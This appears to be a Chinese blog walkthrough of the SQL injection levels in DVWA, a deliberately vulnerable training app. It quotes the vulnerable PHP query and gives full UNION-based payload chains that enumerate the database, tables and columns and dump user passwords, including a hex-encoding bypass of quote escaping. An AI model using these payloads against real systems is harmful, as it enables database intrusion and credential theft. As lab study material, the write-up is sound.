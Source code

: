 ```yaml
---
layout:     post
title:      dvwa之sql注入
subtitle:   dvwa的sql注入通关
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - sql注入

---
```


## Low级别
> 源码
```php
$id = $_REQUEST[ 'id' ]
# 没有过滤就直接带入 SQL 语句中 使用单引号闭合
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
while( $row = mysqli_fetch_assoc( $result ) ) {
        // 回显信息
        $first = $row["first_name"];
        $last  = $row["last_name"];
        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
```
> payload流程
```
-1' order by 2# 测试列数
-1' union select 1,2# 测试回显位置
-1' union select 1,database()# 查看数据库名
-1' union select 1, table_name from information_schema.tables where table_schema='dvwa'# 查表
-1' union select 1,column_name from information_schema.columns where table_name='users'#查列
-1' union select 1,concat_ws('~',user,password) from users#查字段
```

## medium
> 发现转变为post方式，使用burp抓包进行绕过
> 查看源代码之后发现使用了mysqli_real_escape_string()的php函数
> 把用户输入数据中的 NUL（ASCII 0）、\n、\r、\、’、" 和 Control-Z字符进行了转义
> 发现查询语句为`SELECT first_name, last_name FROM users WHERE user_id = $id`并不是一定需要’号 库名表名等也可以用十六进制绕过

```php
payload
-1 order by 2# 测试列数
-1  union select 1,2# 测试回显位置
-1 union select 1,database()# 查看数据库名
-1 union select 1, table_name from information_schema.tables where table_schema=0x64767761# 查表
-1 union select 1,column_name from information_schema.columns where table_name=0x7573657273#查列
-1 union select user,password from users##查字段
```

## high
> 查看源码，没发现有什么过滤，直接payload
```php
-1' order by 2# 测试列数
-1' union select 1,2# 测试回显位置
-1' union select 1,database()# 查看数据库名
-1' union select 1, table_name from information_schema.tables where table_schema='dvwa'# 查表
-1' union select 1,column_name from information_schema.columns where table_name='users'#查列
-1' union select 1,concat_ws('~',user,password) from users#查字段
```
